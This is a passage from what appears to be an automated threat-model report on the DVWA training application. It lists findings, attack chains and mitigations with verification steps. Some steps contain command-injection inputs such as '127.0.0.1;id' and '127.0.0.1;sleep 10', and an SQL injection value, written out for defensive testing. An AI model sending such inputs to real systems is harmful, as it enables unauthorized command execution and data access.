**Classification:** Supply-Chain Integrity · STRIDE: Tampering · [CWE-829](https://cwe.mitre.org/data/definitions/829.html) · [OWASP A03:2025](https://owasp.org/Top10/2025/A03_2025-Software_Supply_Chain_Failures/) · Verification items: [TC-SUPPLY-01](#tc-supply-01) · Rules: IAC-001

<a id="t-069"></a><a id="f-069"></a>
#### F-069 · Container Runs as Root

**Severity:** 🟡 Medium  ·  **Component:** [C-02](#c-02) - CI/CD Pipeline  ·  **Location:** `Dockerfile:1`

**Issue:** Container Runs as Root: Containers running as root expand container-escape blast radius.

**Evidence:** ✓ verified

**Fix:** ◑ [M-013](#m-013) — Drop unnecessary privileges in build and runtime

**Classification:** Supply-Chain Integrity · STRIDE: Elevation of Privilege · [CWE-250](https://cwe.mitre.org/data/definitions/250.html) · [OWASP A03:2025](https://owasp.org/Top10/2025/A03_2025-Software_Supply_Chain_Failures/) · Verification items: [TC-INFRA-01](#tc-infra-01) · Rules: IAC-002

<a id="t-070"></a><a id="f-070"></a>
#### F-070 · Workflows omit explicit permissions and inherit default

**Severity:** 🟡 Medium  ·  **Component:** [C-02](#c-02) - CI/CD Pipeline  ·  **Location:** `.github/workflows/docker-image.yml:10`

**Trust boundary gap:** [tb-3](#tb-3) - external → CI/CD Pipeline · Authorization: The build job crosses the `GITHUB_TOKEN`-scope boundary with no explicit permissions block, so the minimum-token assumption is not enforced.

**Issue:** None of the workflows declares a permissions key, so each job gets the repository's default `GITHUB_TOKEN` scope, which is read-write on legacy-default repositories. A compromised tag-pinned action, or a malicious step in any job, can then push commits, create releases or overwrite packages instead of being limited to the single scope it needs (`packages: write` for the image push).

**Evidence:** ✓ verified - `docker-image.yml:10` (build job), `codeql-analysis.yml:20`, `pytest.yml:15`, `shiftleft-analysis.yml:16` and `vulnerable.yml:9`/21 define jobs with no permissions key at workflow or job level. `shiftleft-analysis.yml:27` passes `GITHUB_TOKEN` into a third-party action.

**Fix:** ◑ [M-074](#m-074) — Declare least-privilege permissions blocks

**Classification:** Broken Access Control · STRIDE: Elevation of Privilege · [CWE-272](https://cwe.mitre.org/data/definitions/272.html) · [OWASP A01:2025](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)

<a id="t-071"></a><a id="f-071"></a>
#### F-071 · Missing Workflow Permissions Block

**Severity:** 🟡 Medium  ·  **Component:** [C-02](#c-02) - CI/CD Pipeline  ·  **Location:** Multiple locations (5)

**Instances (5):** `.github/workflows/codeql-analysis.yml`: 20; `.github/workflows/docker-image.yml`: 10; `.github/workflows/pytest.yml`: 15; `.github/workflows/shiftleft-analysis.yml`: 16; `.github/workflows/vulnerable.yml`: 9

**Issue:** Missing Workflow Permissions Block: Without an explicit permissions block at workflow or job level, the job inherits the repository default (commonly write-all) for `GITHUB_TOKEN` - any compromised step can push code, create releases, or approve PRs.

**Evidence:** ✓ verified

**Fix:** ◑ [M-014](#m-014) — Apply least-privilege permissions

**Classification:** Supply-Chain Integrity · STRIDE: Elevation of Privilege · [CWE-732](https://cwe.mitre.org/data/definitions/732.html) · [OWASP A03:2025](https://owasp.org/Top10/2025/A03_2025-Software_Supply_Chain_Failures/) · Verification items: [TC-CI-01](#tc-ci-01) · Rules: IAC-010

---

## 9. Abuse Cases

_Abuse cases connect findings into attack scenarios. The verdict records whether repository evidence confirms the path. Combined risk is the highest policy-rated risk of the linked findings in the [§8 Findings Register](#8-findings-register); verification adds no severity. Within each verification group, higher-risk cases appear first. Equal risks use the strongest finding's assessed reach, impact and likelihood. Case IDs remain stable and do not indicate priority._

**Confirmed attack paths**

| # | Scenario | Actor | Combined Risk | Verdict |
|--------|------------------------------------|----------------------|-------------|--------------|
| [AC-T-002](#ac-t-002) | Bulk Data Exfiltration via Broken Object<br/>Authorization | Authenticated Internet Attacker | 🟡 Medium | ⚠ Fully viable |
| [AC-T-004](#ac-t-004) | Privilege Escalation via Mass-Assignment on<br/>Registration | Anonymous Internet Attacker | 🔴 Critical | ⚠ Fully viable |
| [AC-T-005](#ac-t-005) | Authentication Bypass via Exposed Secret<br/>Material | Anonymous Internet Attacker | 🔴 Critical | ⚠ Fully viable |

**Unresolved scenarios**

| Case | Findings | Unresolved evidence |
|----------------------|------------------|----------------------|
| <a id="ac-t-001"></a>AC-T-001 - Account Takeover via XSS + Token<br/>Hijacking | 🟡 [F-054](#f-054) — Stored XSS in authbypass user table, 🟠 [F-009](#f-009) — DOM XSS from URL default parameter written | Step 1: user\[&#x27;first\_name&#x27;\] from<br/>the server response is concatenated into<br/>`innerHTML` with no sanitiser (no<br/>DOMPurify/sanitize), so stored markup would<br/>execute.<br/>(`vulnerabilities/authbypass/authbypass.js:45`)<br/>Step 2: Matched sink is a DOM-XSS<br/>`document.write` in xss\_d, not a storage read<br/>of a session token. No<br/>`localStorage`/`sessionStorage`/cookie token<br/>storage is shown, so the pairing is<br/>unrelated to the chain&#x27;s artefact.<br/>(`vulnerabilities/xss\_d/index.php:53`)<br/>Step 3: The refresh\_token grant accepts a<br/>token by value with no visible binding/PKCE,<br/>but Login::check\_refresh\_token is not<br/>shown and step 2 yielded no stolen token.<br/>(`vulnerabilities/api/src/LoginController.php:117`) |
| <a id="ac-b-006"></a>AC-B-006 - User keeps using a withdrawn<br/>right | 🟡 [F-096](#f-096) — User keeps | Step 1: Tokens are stateless and<br/>check\_token validates only the token<br/>content, with no revocation or server-side<br/>session lookup. Whether this is a defect<br/>depends on the unstated revocation-delay<br/>policy (open question). The token-expiry<br/>enforcement<br/>(`vulnerabilities/cryptography/source/check\_token\_high.php:15`)<br/>How quickly must a revocation take effect? |
| <a id="ac-b-001"></a>AC-B-001 - User reads or changes data of<br/>another user or tenant | No matched finding | Step 1: evidence not admitted (no evidence):<br/>Both preselected download scripts serve a<br/>fixed, hardcoded source file with no<br/>user-supplied path, user ID or tenant<br/>identifier. They read no per-user or<br/>per-tenant data, so the operation does not<br/>exi |

**Checked without finding**

| Case | Result | Reason |
|----------------------|----------------|------------------------------------|
| <a id="ac-t-006"></a>AC-T-006 - Remote Code Execution via<br/>Server-Side Injection | ✗ Does not apply | The only sink match is an eval( inside a //<br/>comment (line 7) that never executes. The<br/>live code on line 6 only calls `window.open`<br/>with the URL, a client-side browser call,<br/>not a server-side interpreter, template<br/>engine or deserializer. No at<br/>(`dvwa/js/dvwaPage.js:6`) |

_Verdict: ⚠ Fully viable - no effective control blocks this chain · ◐ Partially blocked - at least one step has a compensating control but the chain is not fully closed · ✓ Mitigated - chain is broken at a verified step · ? Inconclusive - could not be verified end-to-end. Step: ✗ Refuted - the matched pairing does not hold on the code._

_Proposed fixes address confirmed steps; their effectiveness still requires validation._

---

<a id="ac-t-002"></a>
### AC-T-002 — Bulk Data Exfiltration via Broken Object Authorization

> **Source:** technical abuse case · **Actor:** Authenticated Internet Attacker - authenticated low-privilege user · **Combined Risk:** 🟡 Medium · **Verdict:** ⚠ Fully viable

**Goal:** Enumerate and exfiltrate other users' records, then escalate own permissions via unguarded mass assignment.

**Prerequisite:** Attacker holds a valid, non-privileged user account.

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🟡 [F-073](#f-073) — Profile authorization trusts client-controlled user_id cookie | Attacker enumerates and retrieves records<br/>for arbitrary object IDs; no ownership<br/>comparison is performed. |
| 2 | 🟡 [F-076](#f-076) — Mass assignment of privileged user level | Update endpoint persists an unfiltered `role`<br/>(or equivalent) field supplied in the<br/>request body. |

**Scenario impact**

The ownership gap exposes every record, and the mass-assignment gap lets the same low-privilege actor self-elevate - together they turn a single compromised account into full tenant data access and role escalation.

**Proposed fixes for confirmed steps**

- ◑ [M-076](#m-076) — Enforce object-level (ownership) authorization (**P3**): addresses 🟡 [F-073](#f-073) — Profile authorization trusts client-controlled user_id cookie at **Step 1**. Validate the fix against this step before treating the chain as blocked.
- ◑ [M-079](#m-079) — Allowlist client-controlled fields (**P3**): addresses 🟡 [F-076](#f-076) — Mass assignment of privileged user level at **Step 2**. Validate the fix against this step before treating the chain as blocked.

---

<a id="ac-t-004"></a>
### AC-T-004 — Privilege Escalation via Mass-Assignment on Registration

> **Source:** technical abuse case · **Actor:** Anonymous Internet Attacker - unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ⚠ Fully viable

**Goal:** Obtain an administrator account without any existing privilege.

**Prerequisite:** Self-registration is open (one unauthenticated POST).

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🟡 [F-076](#f-076) — Mass assignment of privileged user level | The account-creation handler persists the<br/>request body wholesale, so a client-supplied<br/>`role` (or `isAdmin`) field is written verbatim. |

**Scenario impact**

A single unauthenticated request mints an admin account when the registration handler trusts a client-supplied role field - the most direct full-compromise path in role-based apps with open sign-up.

**Proposed fixes for confirmed steps**

- ◑ [M-079](#m-079) — Allowlist client-controlled fields (**P3**): addresses 🟡 [F-076](#f-076) — Mass assignment of privileged user level at **Step 1**. Validate the fix against this step before treating the chain as blocked.

---

<a id="ac-t-005"></a>
### AC-T-005 — Authentication Bypass via Exposed Secret Material

> **Source:** technical abuse case · **Actor:** Anonymous Internet Attacker - unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ⚠ Fully viable

**Goal:** Forge trusted tokens / credentials and impersonate any user.

**Prerequisite:** Signing material or other secrets are reachable (committed to a public repo, served by an unauthenticated route, or in an exposed directory).

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🟡 [F-039](#f-039) — Hardcoded token encryption key allows bearer token forgery | A private key, signing secret, or credential<br/>file is committed to the source repository<br/>or served without authentication. |
| 2 | _no matching finding_<br/>`vulnerabilities/api/src/Token.php:39` | The exposed key/secret is the same one the<br/>server trusts, so a token signed with it (or<br/>the leaked credential) is accepted as<br/>authentic. |

**Scenario impact**

Exposed signing material collapses the entire authentication boundary: any attacker who reads the key can mint a valid token for any identity or role, with no credential ever required.

**Proposed fixes for confirmed steps**

- ◑ [M-045](#m-045) — Load token key from secret storage and rotate (**P3**): addresses 🟡 [F-039](#f-039) — Hardcoded token encryption key allows bearer token forgery at **Step 1**. Validate the fix against this step before treating the chain as blocked.

---

### Technical abuse cases — evaluated, not applicable

_These common abuse-case scenarios from the standard library were checked against this codebase and did not apply. They are listed so the assessment's abuse-case coverage is explicit, not silent._

| Scenario | Source | Why not applicable |
|------------------------------------|---------|----------------------|
| Privilege Escalation to Admin via JWT<br/>Algorithm Confusion | mandatory | no finding matched the required chain<br/>step(s) for this scenario |
| Privileged Action via Prompt Injection into<br/>a Tool-Calling Model | mandatory | no finding matched the required chain<br/>step(s) for this scenario |

---

### Business-case coverage

- 5 business abuse case(s) did not apply: preselection found no matching runtime code or signal.

---

## 10. Mitigation Register

Each mitigation block lists the findings it **Addresses**, the CWEs it **Prevents**, and the **Priority** (P1 = before deployment, P2 = current sprint, P3 = next quarter, P4 = backlog). **Why**, **How**, and **Verification** appear when written; every P1 or P2 mitigation that changes code gives **How** and **Verification**. If a field is omitted, refer to the linked finding's *Evidence* line for file:line context and to the threat-category description in [§8 Findings Register](#8-findings-register) for the underlying weakness.

**Mitigations index:**<br/>● [M-018](#m-018) — Validate target host and drop shell invocation<br/>◕ [M-012](#m-012) — docker-compose secrets supplied by reference<br/>◕ [M-015](#m-015) — Require anti-CSRF token and current password<br/>◕ [M-016](#m-016) — Store passwords with password_hash using bcrypt or Argon2<br/>◕ [M-019](#m-019) — Use AEAD or signed tokens with secret key<br/>◕ [M-020](#m-020) — Remove default passwords and enforce a password policy<br/>◕ [M-021](#m-021) — Generate per-install random initial passwords<br/>◕ [M-022](#m-022) — Encode output instead of bypassing the framework sanitizer (🟠 [F-009](#f-009))<br/>◕ [M-023](#m-023) — HTML-encode the name parameter on output<br/>◕ [M-024](#m-024) — HTML-encode guestbook fields at render time<br/>◕ [M-025](#m-025) — Use prepared statements for user update query<br/>◕ [M-026](#m-026) — Bind the logged IP with a prepared statement<br/>◕ [M-027](#m-027) — Use PDO prepared statements for the login query<br/>◕ [M-028](#m-028) — Parameterize the query and validate the session ID<br/>◕ [M-029](#m-029) — Use parameterized queries for the user ID lookup<br/>◕ [M-030](#m-030) — Bind the ID as an integer parameter<br/>◕ [M-031](#m-031) — Parameterize the query and validate the cookie value<br/>◕ [M-032](#m-032) — Use prepared statements for the existence check<br/>◕ [M-033](#m-033) — Allowlist exact include filenames<br/>◕ [M-034](#m-034) — Replace Referer substring check with CSRF tokens<br/>◕ [M-035](#m-035) — Remove secret-echoing workflow and rotate exposed secrets<br/>◕ [M-036](#m-036) — Allowlist module IDs and security levels<br/>◕ [M-037](#m-037) — Retire v1 serializer and require auth on user API<br/>◕ [M-038](#m-038) — Remove test script and rotate DB credentials<br/>◕ [M-039](#m-039) — Validate and re-encode uploads with random names<br/>◕ [M-040](#m-040) — Validate uploads server-side by extension and content<br/>◕ [M-041](#m-041) — Switch tokens to AES-GCM with random IVs<br/>◕ [M-042](#m-042) — Require authentication on every exposed endpoint<br/>◑ [M-001](#m-001) — Manual review: verify Broken MD5/SHA-1 Hash Primitive Usage<br/>◑ [M-002](#m-002) — Manual review: verify Stored guestbook name and message persisted…<br/>◑ [M-003](#m-003) — Manual review: verify Wildcard filename check allows file scheme…<br/>◑ [M-004](#m-004) — Manual review: verify Non-recursive traversal filter bypass in file…<br/>◑ [M-005](#m-005) — Manual review: verify Predictable session identifier generation in…<br/>◑ [M-006](#m-006) — Manual review: verify Request URI reflected unescaped into inline…<br/>◑ [M-007](#m-007) — Manual review: verify Cross-site scripting via reflected session ID<br/>◑ [M-008](#m-008) — Manual review: verify Reflected XSS via id in source viewer heading<br/>◑ [M-009](#m-009) — Manual review: verify Configuration file copied to backup alongside…<br/>◑ [M-010](#m-010) — Manual review: verify User keeps using a withdrawn right<br/>◑ [M-011](#m-011) — Manual review: verify Unauthenticated or low-privilege caller uses…<br/>◑ [M-013](#m-013) — Drop unnecessary privileges in build and runtime<br/>◑ [M-014](#m-014) — Apply least-privilege permissions<br/>◑ [M-017](#m-017) — Use modern cryptographic hash and KDF algorithms<br/>◑ [M-043](#m-043) — Move MariaDB passwords into generated Docker secrets<br/>◑ [M-044](#m-044) — Rate-limit and lock out repeated authentication attempts<br/>◑ [M-045](#m-045) — Load token key from secret storage and rotate<br/>◑ [M-046](#m-046) — Generate session IDs with a CSPRNG<br/>◑ [M-047](#m-047) — Remove the hardcoded CAPTCHA bypass branch<br/>◑ [M-048](#m-048) — Match redirect targets against an exact allowlist<br/>◑ [M-049](#m-049) — Replace URL redirect with ID allowlist<br/>◑ [M-050](#m-050) — Use an allowlist of internal redirect targets<br/>◑ [M-051](#m-051) — Enforce authorization on the server<br/>◑ [M-052](#m-052) — Use authenticated encryption and uniform error responses<br/>◑ [M-053](#m-053) — Move credentials to a hashed credential store<br/>◑ [M-054](#m-054) — Verify CAPTCHA in the same request that changes the password<br/>◑ [M-055](#m-055) — Require a user-chosen password and hash it adaptively<br/>◑ [M-056](#m-056) — Replace the password grant with authorization code and PKCE<br/>◑ [M-057](#m-057) — Pin all GitHub Actions to full commit SHAs<br/>◑ [M-058](#m-058) — Pin base images by sha256 digest<br/>◑ [M-059](#m-059) — JSON-encode server values embedded<br/>◑ [M-060](#m-060) — Encode output instead of bypassing the framework sanitizer (🟡 [F-054](#f-054))<br/>◑ [M-061](#m-061) — HTML-encode log fields when rendering the access log<br/>◑ [M-062](#m-062) — HTML-encode the username before echoing it<br/>◑ [M-063](#m-063) — HTML-encode the include parameter<br/>◑ [M-064](#m-064) — Remove user-controlled script src and tighten CSP<br/>◑ [M-065](#m-065) — Encode output and use per-request CSP nonces<br/>◑ [M-066](#m-066) — HTML-encode the session ID before output<br/>◑ [M-067](#m-067) — Encode or allowlist id before HTML output<br/>◑ [M-068](#m-068) — Use trusted client IPs for rate limiting<br/>◑ [M-069](#m-069) — Allow-list help ids and check resolved path containment<br/>◑ [M-070](#m-070) — Move cryptographic keys to a managed secret store (🟡 [F-064](#f-064))<br/>◑ [M-071](#m-071) — Use authenticated encryption with managed keys<br/>◑ [M-072](#m-072) — Accept login credentials only in POST bodies<br/>◑ [M-073](#m-073) — Stop writing config backups into web root<br/>◑ [M-074](#m-074) — Declare least-privilege permissions blocks<br/>◑ [M-075](#m-075) — Remove server-side evaluation of untrusted input<br/>◑ [M-076](#m-076) — Enforce object-level (ownership) authorization<br/>◑ [M-077](#m-077) — Replace static token check with per-user ownership check<br/>◑ [M-078](#m-078) — Enforce admin authorization on every security level<br/>◑ [M-079](#m-079) — Allowlist client-controlled fields<br/>◑ [M-081](#m-081) — Enforce role checks on user API operations<br/>○ [M-080](#m-080) — Re-check current roles and account status when a session or token is…

### P1 — Immediate

<a id="m-018"></a>
#### M-018 — Validate target host and drop shell invocation

**Addresses:**

- 🔴 [F-005](#f-005) — OS command injection in ping and health connectivity checks

**Weaknesses addressed:** [W-001](#w-001)

**Prevents CWEs:**

- [CWE-78](https://cwe.mitre.org/data/definitions/78.html)

**Priority:** P1 - Immediate · **Effort:** Low · **File:** `vulnerabilities/api/src/HealthController.php:88`

**How:**

1. Validate the health target and the exec ip parameter with `filter_var(FILTER_VALIDATE_IP)`, or a strict hostname regex for the health target, and reject anything else (422 on the health route).
2. Remove the '&&' and ';' `str_replace` blacklist in the medium exec level.
3. Pass validated values through `escapeshellarg()` before exec or `shell_exec`, or avoid the shell entirely, for example with a socket-based connectivity check.
4. Require a valid bearer token (Login::`check_access_token`) on the health/connectivity route.

**Verification:** Run curl -X POST -H '`Content-Type`: application/json' -d '{"target":"`127.0.0.1`;sleep 10"}' against `/vulnerabilities/api/v2/health/connectivity` and confirm it returns 422 at once, without a 10s delay. Then POST `ip=127.0.0.1`;id and `ip=127.0.0.1`|id to the exec page at each level and confirm only an invalid-IP error appears, with no command output.

**Reference:** [CWE-78: Improper Neutralization of Special Elements used in an OS Command (OS Command Injection)](https://cwe.mitre.org/data/definitions/78.html)

---

### P2 — This Sprint

<a id="m-012"></a>
#### M-012 — docker-compose secrets supplied by reference

**Addresses:**

- 🟠 [F-028](#f-028) — Static database credentials hardcoded in compose file

**Weaknesses addressed:** [W-004](#w-004)

**Prevents CWEs:**

- [CWE-798](https://cwe.mitre.org/data/definitions/798.html) - Use of Hard-coded Credentials

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `compose.yml:31`

**How:** Move the value to Compose `secrets` or an untracked env file and reference it as `${VAR}`; rotate the committed value - A credential written as a literal in a service's `environment` is readable by everyone with repository access and runs unchanged wherever the file is deployed.

1. Replace the literal `MYSQL_ROOT_PASSWORD` and `MYSQL_PASSWORD` values with `MYSQL_ROOT_PASSWORD_FILE` and `MYSQL_PASSWORD_FILE` pointing to Docker secrets, or with \${`MYSQL_ROOT_PASSWORD`:?} style references loaded from an untracked .env file.
2. Document how to generate a unique strong random password for each deployment, and rotate any passwords already deployed with the committed values.
3. Make the app container read the same secret instead of the default credentials from `config.inc.php.dist`.

_Generic CWE-798 pattern, not code from this repository:_

```typescript
// Read secrets from env / vault, not the source.
const hmacKey = process.env.ORDER_HMAC_KEY
if (!hmacKey) throw new Error('ORDER_HMAC_KEY not set')
const sig = createHmac('sha256', hmacKey).update(payload).digest('hex')
```

**Verification:** Run grep -nE '`MYSQL_(ROOT_)?PASSWORD=`' `compose.yml` and confirm it finds only variable references, not literal values. Then run docker compose config and confirm the passwords come from secrets or environment variables.

**Reference:** [CWE-798: Use of Hard-coded Credentials](https://cwe.mitre.org/data/definitions/798.html)

---

<a id="m-015"></a>
#### M-015 — Require anti-CSRF token and current password

**Addresses:**

- 🟠 [F-001](#f-001) — Missing Anti-CSRF Tokens on State-Changing Actions

**Prevents CWEs:**

- [CWE-352](https://cwe.mitre.org/data/definitions/352.html) - Cross-Site Request Forgery (CSRF)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `vulnerabilities/csrf/source/low.php:3`

**How:**

1. Accept password changes only over POST, with a session-bound token checked by `checkToken`.
2. Require the current password, as the impossible level does.

_Generic CWE-352 pattern, not code from this repository:_

```typescript
// Use double-submit cookie / SameSite=Strict for state-changing routes.
app.use(csrf({ cookie: { sameSite: 'strict', httpOnly: true, secure: true } }))
```

**Verification:** Issue a cross-site GET with Change=Change and no `user_token`, then confirm the password is unchanged.

**Reference:** [CWE-352: Cross-Site Request Forgery (CSRF)](https://cwe.mitre.org/data/definitions/352.html)

---

<a id="m-016"></a>
#### M-016 — Store passwords with password_hash using bcrypt or Argon2

**Addresses:**

- 🟠 [F-002](#f-002) — Passwords hashed with unsalted MD5 and no strength policy

**Weaknesses addressed:** [W-005](#w-005)

**Prevents CWEs:**

- [CWE-916](https://cwe.mitre.org/data/definitions/916.html)

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `vulnerabilities/captcha/source/impossible.php:14`

**How:**

1. Widen the password column during setup so it can hold `password_hash()` output.
2. Replace `md5()` with `password_hash($pass, PASSWORD_ARGON2ID)`, or `PASSWORD_BCRYPT` with a cost of at least 12, wherever passwords are stored.
3. Select the user by name and verify with `password_verify()` in `login.php` and `test_credentials.php`.
4. Add a server-side policy check on password change and registration: a minimum length of 12 and a block list of common passwords.
5. Migrate existing `MD5` hashes by rehashing at the next successful login, and force a reset for accounts that have not migrated.

_Generic CWE-916 pattern, not code from this repository:_

```typescript
// Replace md5/sha1 password hashes with bcrypt or argon2.
import bcrypt from 'bcrypt'
const hash = await bcrypt.hash(plaintext, 12)
const ok = await bcrypt.compare(plaintext, storedHash)
```

**Verification:** Change a password through the captcha and CSRF forms, then run `SELECT password FROM users` WHERE user='admin'. Confirm the value starts with \$argon2id\$ or \$2y\$12\$, that login still succeeds, and that submitting 'abc' as the new password is rejected.

**Reference:** [CWE-916: Use of Password Hash with Insufficient Computational Effort](https://cwe.mitre.org/data/definitions/916.html)

---

<a id="m-019"></a>
#### M-019 — Use AEAD or signed tokens with secret key

**Addresses:**

- 🟠 [F-006](#f-006) — Session token in AES-ECB without integrity allows forged admin

**Weaknesses addressed:** [W-005](#w-005)

**Prevents CWEs:**

- [CWE-327](https://cwe.mitre.org/data/definitions/327.html) - Use of a Broken or Risky Cryptographic Algorithm

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `vulnerabilities/cryptography/source/medium.php:3`

**How:**

1. Encrypt tokens with AES-256-GCM using a random IV, or sign them with HMAC-SHA256.
2. Keep the key out of source and compare claims with strict ===.

_Generic CWE-327 pattern, not code from this repository:_

```typescript
// jsonwebtoken@9+: pin algorithm whitelist; reject `alg:none`.
jwt.verify(token, publicKey, { algorithms: ['RS256'] })
```

**Verification:** Submit a block-spliced token and confirm decryption or authentication fails.

**Reference:** [CWE-327: Use of a Broken or Risky Cryptographic Algorithm](https://cwe.mitre.org/data/definitions/327.html)

---

<a id="m-020"></a>
#### M-020 — Remove default passwords and enforce a password policy

**Addresses:**

- 🟠 [F-007](#f-007) — Seeded accounts use trivially guessable default passwords

**Prevents CWEs:**

- [CWE-521](https://cwe.mitre.org/data/definitions/521.html)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `dvwa/includes/DBMS/MySQL.php:55`

**How:**

1. Have setup generate a random password per seeded account (`random_bytes`) or require the operator to set one, and display it once.
2. Enforce a minimum length and breached-password check on every path that sets a password.
3. Force a password change at first login for any seeded account.

**Verification:** Run setup, then POST `username=admin`&`password=password` with a valid token to `login.php` and confirm the response is 'Login failed' and no session is created.

---

<a id="m-021"></a>
#### M-021 — Generate per-install random initial passwords

**Addresses:**

- 🟠 [F-008](#f-008) — Seeded default accounts with trivial passwords stored as unsalted

**Weaknesses addressed:** [W-004](#w-004)

**Prevents CWEs:**

- [CWE-798](https://cwe.mitre.org/data/definitions/798.html) - Use of Hard-coded Credentials

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `dvwa/includes/DBMS/MySQL.php:55`

**How:**

1. Generate a random admin password during setup and show it once, or require the operator to set one.
2. Force a password change on first login for seeded accounts.
3. Widen the password column to `VARCHAR(255)`, and store `password_hash($pass, PASSWORD_ARGON2ID)`, or `PASSWORD_BCRYPT` with cost >= 12, in setup and in every password change path.
4. Select the user row by username only and verify with `password_verify()`; remove `md5()` from `login.php` and `test_credentials.php`.
5. Rehash legacy `MD5` values at the next successful login, or force a reset.

_Generic CWE-798 pattern, not code from this repository:_

```typescript
// Read secrets from env / vault, not the source.
const hmacKey = process.env.ORDER_HMAC_KEY
if (!hmacKey) throw new Error('ORDER_HMAC_KEY not set')
const sig = createHmac('sha256', hmacKey).update(payload).digest('hex')
```

**Verification:** Run setup, then POST `login.php` with admin/password and a valid token, and expect 'Login failed'. Run `SELECT password FROM users` and confirm the values start with \$argon2id\$ or \$2y\$12\$. Confirm that a valid password still logs in and that grep finds no md5( on password paths.

---

<a id="m-022"></a>
#### M-022 — Encode output instead of bypassing the framework sanitizer (F-009)

**Addresses:**

- 🟠 [F-009](#f-009) — DOM XSS from URL default parameter written

**Weaknesses addressed:** [W-003](#w-003)

**Prevents CWEs:**

- [CWE-79](https://cwe.mitre.org/data/definitions/79.html) - Cross-site Scripting

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `vulnerabilities/xss_d/index.php:53`

**How:**

1. Parse the parameter with `URLSearchParams(location.search)` instead of taking a substring of `location.href`.
2. Check the value against the allowed language list on the client side.
3. Create option elements with `document.createElement` and set .value and .`textContent` instead of using `document.write`.

_Generic CWE-79 pattern, not code from this repository:_

```typescript
// Never call bypassSecurityTrust*; let Angular sanitize.
// template:  <div [innerHTML]="product.description"></div>
// component: no DomSanitizer.bypassSecurityTrustHtml(...)
this.product.description = raw  // bound directly; Angular escapes
```

**Verification:** Open ?`default=English`#`<script>``alert(1)``</script>` and ?default=``. Confirm no script runs and the option text shows the literal characters.

**Reference:** [CWE-79: Improper Neutralization of Input During Web Page Generation (XSS)](https://cwe.mitre.org/data/definitions/79.html)

---

<a id="m-023"></a>
#### M-023 — HTML-encode the name parameter on output

**Addresses:**

- 🟠 [F-010](#f-010) — Reflected cross-site scripting

**Weaknesses addressed:** [W-003](#w-003)

**Prevents CWEs:**

- [CWE-79](https://cwe.mitre.org/data/definitions/79.html) - Cross-site Scripting

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `vulnerabilities/xss_r/source/low.php:8`

**How:**

1. Encode `$_GET['name']` with `htmlspecialchars($v, ENT_QUOTES, 'UTF-8')` before building \$html at every level.
2. Remove blocklist filters and the X-XSS-Protection: 0 header; add a restrictive `Content-Security-Policy`.

_Generic CWE-79 pattern, not code from this repository:_

```typescript
// Never call bypassSecurityTrust*; let Angular sanitize.
// template:  <div [innerHTML]="product.description"></div>
// component: no DomSanitizer.bypassSecurityTrustHtml(...)
this.product.description = raw  // bound directly; Angular escapes
```

**Verification:** Request ?name=`` at each level and assert the response contains &lt;img and no executable tag.

**Reference:** [CWE-79: Improper Neutralization of Input During Web Page Generation (XSS)](https://cwe.mitre.org/data/definitions/79.html)

---

<a id="m-024"></a>
#### M-024 — HTML-encode guestbook fields at render time

**Addresses:**

- 🟠 [F-011](#f-011) — Stored guestbook name and message persisted without HTML encoding

**Weaknesses addressed:** [W-003](#w-003)

**Prevents CWEs:**

- [CWE-79](https://cwe.mitre.org/data/definitions/79.html) - Cross-site Scripting

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `vulnerabilities/xss_s/source/low.php:16`

**How:**

1. Encode name and comment with `htmlspecialchars(ENT_QUOTES, 'UTF-8')` when `dvwaGuestbook()` renders rows.
2. Drop blocklist filters on input; store raw text via prepared statements as in `impossible.php`.
3. Enforce server-side length limits on `txtName` and `mtxMessage`.

_Generic CWE-79 pattern, not code from this repository:_

```typescript
// Never call bypassSecurityTrust*; let Angular sanitize.
// template:  <div [innerHTML]="product.description"></div>
// component: no DomSanitizer.bypassSecurityTrustHtml(...)
this.product.description = raw  // bound directly; Angular escapes
```

**Verification:** Post `txtName`=`` at each level, reload the page, and assert the rendered HTML contains &lt;img and no script runs.

**Reference:** [CWE-79: Improper Neutralization of Input During Web Page Generation (XSS)](https://cwe.mitre.org/data/definitions/79.html)

---

<a id="m-025"></a>
#### M-025 — Use prepared statements for user update query

**Addresses:**

- 🟠 [F-012](#f-012) — SQL injection in user details update endpoint

**Prevents CWEs:**

- [CWE-89](https://cwe.mitre.org/data/definitions/89.html) - SQL Injection

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `vulnerabilities/authbypass/change_user_details.php:48`

**How:**

1. Replace the concatenated query with a mysqli prepared statement that binds `first_name` and `last_name` as strings and `user_id` as an integer.
2. Validate that id is an integer before executing the statement.

_Generic CWE-89 pattern, not code from this repository:_

```typescript
// Reject string interpolation; use parameter binding.
await sequelize.query(
  'SELECT * FROM Users WHERE email = :email AND password = :password',
  { replacements: { email, password: hash(password) }, type: QueryTypes.SELECT }
)
```

**Verification:** POST `{"id":"1 OR 1=1","first_name":"a'","surname":"b"}` and confirm that only a type error is returned and no rows other than user 1 change.

**Reference:** [CWE-89: Improper Neutralization of Special Elements used in an SQL Command (SQL Injection)](https://cwe.mitre.org/data/definitions/89.html)

---

<a id="m-026"></a>
#### M-026 — Bind the logged IP with a prepared statement

**Addresses:**

- 🟠 [F-013](#f-013) — SQL injection

**Prevents CWEs:**

- [CWE-89](https://cwe.mitre.org/data/definitions/89.html) - SQL Injection

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `vulnerabilities/bac/source/low.php:81`

**How:**

1. Replace the concatenated INSERT with `mysqli_prepare` and bind `user_id`, `target_id` and ip as parameters, as `bac/source/high.php` does.
2. Take the IP from `REMOTE_ADDR` unless a trusted proxy is configured.

_Generic CWE-89 pattern, not code from this repository:_

```typescript
// Reject string interpolation; use parameter binding.
await sequelize.query(
  'SELECT * FROM Users WHERE email = :email AND password = :password',
